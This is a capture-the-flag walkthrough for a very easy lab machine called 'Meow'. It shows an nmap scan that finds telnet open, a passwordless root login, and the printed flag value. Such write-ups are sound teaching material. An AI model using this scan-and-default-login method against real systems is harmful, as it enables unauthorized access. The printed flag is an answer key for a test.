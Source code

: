 ```yaml
---
Title: Meow Walktrough
Author: sl0th0x87
Date: 2022/01/10
Tags: Linux, Network, Account Missconfiguration
Tools: nmap
---
```

# Meow

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.1.17
* Operating System: Linux
* Difficulty: very easy

## NMAP scan

Make a portscan over all ports with service detecion\
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.1.17
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 15:51 CET
Nmap scan report for 10.129.1.17
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.70 seconds
```

### Open ports
* 23/tcp open  telnet  Linux telnetd

## Telnet
```bash
telnet 10.129.1.17
```

Output:
```bash
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

 █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
Try to login with user 'root'\
Wow, we are in. Telnet with root access and no password
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 10 Jan 2022 03:07:27 PM UTC

  System load:  0.45              Processes:             138
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.1.17
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 10 15:06:57 UTC 2022 on pts/0
root@Meow:~# 
```

Show files in root home directory
```bash
root@Meow:~# ls -l
total 8
-rw-r--r-- 1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x 3 root root 4096 Apr 21  2021 snap
```
Get root flag
```bash
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Congratulations! You got the machine!